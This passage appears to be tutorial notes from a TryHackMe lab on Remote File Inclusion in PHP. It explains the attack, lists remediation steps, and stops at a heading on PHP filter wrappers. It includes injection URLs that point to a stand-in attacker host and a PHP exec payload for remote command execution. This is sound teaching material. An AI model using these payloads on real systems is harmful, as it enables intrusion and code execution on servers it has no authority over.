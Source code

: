- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)

An external server must communicate with the application server for a  successful RFI attack where the attacker hosts malicious files on their  server. Then the malicious file is injected into the include function  via HTTP requests, and the content of the malicious file executes on the vulnerable application server.

<img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b0c2659127d95a0b633e94bd00ed10e0.png" title="" alt="img" width="691">

**RFI steps**

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message Hello THM.

```php
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

# Remediation

As a developer,  it's important to be aware of web application vulnerabilities, how to  find them, and prevention methods. To prevent the file inclusion  vulnerabilities, some common suggestions include:

1. Keep system and services, including web application frameworks, updated with the latest version.
2. Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
3. A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
4. Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
5. Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
6. Never trust user input, and make sure to implement proper input validation against file inclusion.
7. Implement whitelisting for file names and locations as well as blacklisting.

## To gain RCE with RFI to execute the command

1. Creating the .txt file with the command to execute

example  

``` <?PHP print exec('hostname'); ?>```

2. create the server and copy the link of the file from your server and add it in the file parameter

example

```
http://webapp/get.php?file=http://<ip>/<file location>
```

# php filter

file using the PHP filter wrapper.

```